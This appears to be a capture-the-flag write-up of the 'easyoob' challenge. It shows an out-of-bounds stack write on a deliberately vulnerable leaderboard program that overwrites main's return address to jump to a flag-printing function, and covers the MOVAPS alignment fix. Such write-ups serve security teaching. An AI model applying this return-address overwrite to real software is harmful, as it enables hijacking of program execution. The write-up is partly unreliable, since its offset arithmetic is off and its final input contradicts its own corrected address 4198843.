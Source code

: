 # 2. easyoob
> Author: Wong Chee Hong

easyoob requires attackers to exploit a buffer overflow vulnerability in the stack, which gives users control of certain information stored on the stack.

For each function call, a stack frame is created for that function that has been called. The first item pushed ontop of the stack during stack frame setup is the return address, which specifies which address the program execution should return to once the callee has returned. By overwriting this address with a different one, the callee will return to the incorrect address, which can allow attackers to manipulate the execution flow of the program.

In this case, the incorrect address we want to use is the address of the `ezflag()` function. In gdb, call `disassemble ezflag` to get the dump of this function:

```
gdb-peda$ disas ezflag
Dump of assembler code for function ezflag:
   0x00000000004011b6 <+0>:     endbr64
   0x00000000004011ba <+4>:     push   rbp
   0x00000000004011bb <+5>:     mov    rbp,rsp
   0x00000000004011be <+8>:     lea    rdi,[rip+0xe43]        # 0x402008
   0x00000000004011c5 <+15>:    call   0x401090 <system@plt>
   0x00000000004011ca <+20>:    nop
   0x00000000004011cb <+21>:    pop    rbp
   0x00000000004011cc <+22>:    ret
End of assembler dump.
```
Thus, we want to jump to this address: `0x00000000004011b6`, or anywhere before `0x00000000004011be` since we want to invoke the call instruction to print our flag.

For this challenge, we observe that a local buffer/array (`leaderboard[20]`) has been initialized in the main function:

```c
int main()
{
    entry leaderboard[20];

    setup_io();
    puts(BANNER);
    usage();

    command cmd;
    do {
        cmd = get_command();
        if (cmd.op == 1) handle_read(leaderboard, cmd);
        else if (cmd.op == 2) handle_write(leaderboard, cmd);
    } while (cmd.op != 3);

    puts("Thanks for using LeaderboardDB. Your changes are not saved.");

    return 0;
}
```

We also observe that the `handle_write` function accepts the base address of the array as its first argument, and allows writing to **any** index of the array. This means we can write to `leaderboard[21]` or `leaderboard[-1]`.

```c
void handle_write(entry* leaderboard, command cmd)
{
    leaderboard[cmd.pos].userid = cmd.userid;
    leaderboard[cmd.pos].score = cmd.score;
    printf("%d. [%d]  %d\n", cmd.pos, leaderboard[cmd.pos].userid, leaderboard[cmd.pos].score);
}
```

In C, arrays are contiguous sections of memory. So if we know the target address on the stack we want to overwrite, we can find its offset from the base address of the of the array, and calculate the index. 

If one is familiar enough with x86 stack frame setup, you would know that for a stack frame, 
1. the return address is pushed, followed by 
2. the frame pointer, followed by 
3. any local variables.

For the `main` function, the only local variable is `leaderboard[20]`, which occupies 160 bytes (each index is a struct of 2 integers, which takes up 8 bytes, hence 20 * 8 = 160). 

Factoring the frame pointer and return address on the stack (8 bytes each), we know that the return address is stored 176 bytes from the base address of `leaderboard`. For an additional 16 bytes, we need to out of bounds by 2 more indices, which is `leaderboard[21]`  (remember that `leaderboard[19]` is the 20-th item cuz 0-based indexing).

Thus, starting the program, we can send the following input:
```
2 21 4198838 0
```
where 4198838 is 0x00000000004011b6 in base 10.

This overwrites the 21st index to the address we want, and then we can send the next input 
```
3
``` 
in order for `main` to return itself to the address we just planted.

## [The MOVAPS problem](https://ropemporium.com/guide.html#:~:text=aren%27t%20immediately%20obvious.-,The%20MOVAPS%20issue,-If%20you%27re%20segfaulting)

If we debug this program with the above inputs in gdb, we can see that it indeed entered the `ezflag` function:

```
[-------------------------------------code-------------------------------------]
   0x4011ac <__do_global_dtors_aux+44>: nop    DWORD PTR [rax+0x0]
   0x4011b0 <frame_dummy>:      endbr64
   0x4011b4 <frame_dummy+4>:    jmp    0x401140 <register_tm_clones>
=> 0x4011b6 <ezflag>:   endbr64 
   0x4011ba <ezflag+4>: push   rbp
   0x4011bb <ezflag+5>: mov    rbp,rsp
   0x4011be <ezflag+8>: lea    rdi,[rip+0xe43]        # 0x402008
   0x4011c5 <ezflag+15>:        call   0x401090 <system@plt>
```
But it somehow still results in a `SEGFAULT` on some devices.

This is because on certain x86-64 bit architectures, certain versions of `GLIBC` depends on the `movaps` instruction to move data onto the stack. This `movaps` instruction requires the stack to be 16-byte alligned, otherwise it segfaults. In the `ezflag` function, it calls the `GLIBC` function `system()` which depends on the `movaps` instruction, and hence we need to ensure that the stack is 16-byte alligned when the program reaches the `call` instruction in assembly.

Stepping until the `call` instruction at `ezflag+15`, we see that the current stack address is now 
`0x7fffffffdf48`, which is not 16 byte alligned! A 16-byte alligned address means that the least significant digit must be `0`, such the address is in multiples of 16.

```
gdb-peda$ ni
[-------------------------------------code-------------------------------------]
   0x4011ba <ezflag+4>: push   rbp
   0x4011bb <ezflag+5>: mov    rbp,rsp
   0x4011be <ezflag+8>: lea    rdi,[rip+0xe43]        # 0x402008
=> 0x4011c5 <ezflag+15>:        call   0x401090 <system@plt>   //WE ARE HERE
   0x4011ca <ezflag+20>:        nop
   0x4011cb <ezflag+21>:        pop    rbp
   0x4011cc <ezflag+22>:        ret    
   0x4011cd <usage>:    endbr64
Guessed arguments:
arg[0]: 0x402008 ("cat ./ezflag.txt")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf48 --> 0x0                        // OBSERVE THE ADDRESS HERE
0008| 0x7fffffffdf50 --> 0x100000060
0016| 0x7fffffffdf58 --> 0x7fffffffe038 --> 0x7fffffffe262 ("/mnt/c/Users/hazy/Desktop/greyctf/easyoob/easyoob")
0024| 0x7fffffffdf60 --> 0x1f7fb1618
0032| 0x7fffffffdf68 --> 0x401473 (<main>:      endbr64)
0040| 0x7fffffffdf70 --> 0x401530 (<__libc_csu_init>:   endbr64)
0048| 0x7fffffffdf78 --> 0x23e98ef42292644d
0056| 0x7fffffffdf80 --> 0x4010d0 (<_start>:    endbr64)
[------------------------------------------------------------------------------]
```

In fact, `0x7fffffffdf48` is a multiple of 8, and we are 8 bytes shy of being 16 bytes alligned. So we have to push 8 more bytes or remove 8 bytes from the stack. Observing the instructions **before** the `call` instruction, we see that `ezflag+4`'s instruction is `push rbp`, which pushes an 8 byte pointer onto the stack, causing our stack to be 8 bytes misalligned. 

So, instead of jumping to `ezflag+0`, we should return to `ezflag + 5`, to prevent `ezflag+4` from pushing 8 bytes onto the stack. Calculating the final address of our return target, it is `0x4011bb`, or `4198843` in decimal.

The final exploit should be to send `2 21 4198838 0`, followed by `3` to the challenge server.
